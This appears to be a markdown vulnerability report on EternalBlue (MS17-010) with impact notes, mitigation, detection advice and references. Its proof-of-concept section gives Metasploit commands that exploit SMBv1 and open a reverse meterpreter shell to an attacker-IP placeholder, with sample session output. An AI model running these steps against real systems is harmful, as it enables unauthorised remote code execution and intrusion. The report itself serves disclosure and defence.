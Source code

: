 
# 🔒 Vulnerability Report: EternalBlue (MS17-010)

---

## 🔥 Severity
**Critical**

---

## 🧰 Tool Used
- Nmap (to detect port 445)
- Metasploit Framework
- SMB vulnerability scanner (auxiliary/scanner/smb/smb_ms17_010)

---

## 📜 CVE
- **CVE-2017-0144**

---

## 💥 Impact
EternalBlue exploits a vulnerability in Microsoft’s implementation of the SMBv1 protocol. Successful exploitation allows **remote code execution**, enabling attackers to:
- Gain **SYSTEM-level privileges**
- Deliver ransomware or malware (e.g., **WannaCry**, **NotPetya**)
- Move laterally across networks
- Install backdoors or exfiltrate sensitive data

---

## 🧪 Proof of Concept

### ✅ Prerequisites
- Target: Windows 7/8/10 (pre-patched) or Windows Server 2008/2012 (unpatched)
- Open **TCP port 445**
- SMBv1 enabled

### 🧪 Steps Using Metasploit

1. Start Metasploit:
   ```bash
   msfconsole
   ```

2. Load the EternalBlue scanner:
   ```bash
   use auxiliary/scanner/smb/smb_ms17_010
   set RHOSTS 192.168.x.x
   run
   ```

3. If target is vulnerable, exploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.x.x
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <Your_Attacker_IP>
   run
   ```

4. On success:
   ```plaintext
   [*] Sending stage (201283 bytes) to 192.168.x.x
   [+] Meterpreter session 1 opened
   meterpreter >
   ```

---
### 🚨 POC 
![alt text](POC.png) 

## 🧠 Recommendation

- 🔒 **Disable SMBv1**:
  ```powershell
  Set-SmbServerConfiguration -EnableSMB1Protocol $false
  ```

- 🧱 **Block TCP port 445** on perimeter firewalls

- 🛡️ **Apply Microsoft Patch MS17-010**
  [Download Link](https://www.catalog.update.microsoft.com/Search.aspx?q=KB4013389)

- 📋 Regularly audit SMB services and check for legacy protocols

---

## 📸 Diagram

![EternalBlue Exploitation Diagram](https://raw.githubusercontent.com/zer0yu/Awesome-Cyber-Security-Infographics/master/pics/Eternalblue.png)

*Diagram: How EternalBlue exploits SMB to achieve remote code execution*

---

## ✅ Detection

- Monitor logs for:
  - Unusual SMB traffic
  - Event ID 4624 (logon) with SYSTEM access
  - Sysmon Event ID 1: suspicious PowerShell or service creation

---

## ⚠️ References

- [MS17-010 Microsoft Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [CVE-2017-0144 on NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)
- [EternalBlue - Rapid7 Module](https://docs.rapid7.com/metasploit/exploit-windows-smb-ms17-010-eternalblue)

---
